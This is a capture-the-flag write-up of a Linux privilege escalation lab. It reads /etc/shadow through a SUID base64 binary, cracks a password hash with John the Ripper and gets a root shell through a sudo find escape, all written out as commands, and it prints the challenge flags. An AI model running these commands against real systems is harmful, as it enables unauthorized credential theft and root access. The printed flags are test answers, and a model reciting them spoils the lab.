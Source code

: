 # Linux Privilege Escalation Writeup

## FLAG 1

After receiving the SSH credentials for user `leonard`, I logged into the target machine.

### Initial Enumeration

- Checked user identity:
![2025-04-30_14-41](https://github.com/user-attachments/assets/841bccd3-d1da-47b7-8bb2-87e5b49cc5dd)

  ```bash
  whoami
  ```
  Output: `leonard`

- Checked sudo permissions:
  ```bash
  sudo -l
  ```
  Output: User `leonard` cannot run sudo.

- Checked kernel version:
![2025-04-30_14-42](https://github.com/user-attachments/assets/e1585fa5-7c03-466f-bb94-5d570d9e56cd)

  ```bash
  uname -a
  ```
  Output showed kernel version `3.10` (possible CentOS SUID PIE LFI, but this was not pursued).

- Searched for SUID binaries:
![base64](https://github.com/user-attachments/assets/2f022ead-713b-4599-92fe-bf1f61274cc5)

  ```bash
  find / -type f -perm -04000 2>/dev/null
  ```
  Found: `base64` is available as a SUID binary and executable as root.

### Exploiting SUID Base64

- Exported the shadow file path:
![2025-04-30_14-48](https://github.com/user-attachments/assets/e0e588f8-3d12-4a36-9ee3-e65fd2825c25)
![2025-04-30_14-48_1](https://github.com/user-attachments/assets/cf77ff48-dea8-4620-af04-d7450cc4ebe1)

  ```bash
  export shadows="/etc/shadow"
  ```

- Encoded and decoded to retrieve password hashes:
  ```bash
  base64 $shadows | base64 -d
  ```
  This revealed password hashes for `root`, `missy`, and `leonard`.

- Verified home directories:
![2025-04-30_17-48](https://github.com/user-attachments/assets/d8761082-8faa-46ca-bc95-90b8689406a3)

  ```bash
  ls /home
  ```
  Output: `rootflag`, `missy`, and `leonard`

- Saved missy's hash and cracked it using John the Ripper:
![2025-04-30_14-53](https://github.com/user-attachments/assets/25926e87-aa26-43be-be05-a416523b8c71)

  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt missy.txt
  ```
  Cracked password: `Password1`

### Privilege Escalation to Missy

- Logged in via SSH using missy's credentials.

- Checked sudo permissions:
![2025-04-30_14-55](https://github.com/user-attachments/assets/02613642-6a09-4c2b-81a0-f42dc8544f4a)

  ```bash
  sudo -l
  ```
  Output: `missy` can run `find` as sudo.

- Searched for flag1 using find:
![flag1](https://github.com/user-attachments/assets/d02fab7b-156e-4aaf-b0ef-643d7e50187f)

  ```bash
  find / -type f -name flag1.txt 2>/dev/null
  ```
  Output: `/home/missy/Documents/flag1.txt`

  Flag: `THM-42828719920544` 

## FLAG 2

After obtaining `flag1.txt`, I proceeded to escalate privileges using the `find` command, which `missy` is allowed to run as `sudo`.

### Exploiting `find` via GTFObins

- From [GTFOBins](https://gtfobins.github.io/gtfobins/find/), we know that the following command can be used to escalate to a root shell:
![2025-04-30_17-46](https://github.com/user-attachments/assets/96f072ed-fed0-44c7-b3c4-766ebc051e11)

```bash
sudo find . -exec /bin/sh -p \; -quit
```

This command starts a root shell due to the `-p` option preserving privileges.

### Obtaining the Final Flag

Once in the root shell:
![2025-04-30_17-47](https://github.com/user-attachments/assets/84d0ec8e-71a4-4789-8d55-42fe08f21cab)

- Navigated to the `rootflag` directory:
  ```bash
  cd ../rootflag
  ```

- Read the final flag:
  ```bash
  cat flag2.txt
  ```

  Flag: `THM-168824782390238` 

This completed the privilege escalation challenge and retrieved `flag2.txt`.

## Conclusion

This challenge provided a solid walkthrough of Linux privilege escalation techniques, particularly:

- Leveraging SUID binaries like `base64` for accessing restricted files
- Password cracking using John the Ripper
- Gaining root access by exploiting misconfigured `sudo` permissions on binaries such as `find`

Overall, it was a hands-on exercise that emphasized the importance of proper binary permissions and the dangers of insecure privilege delegation on Linux systems.
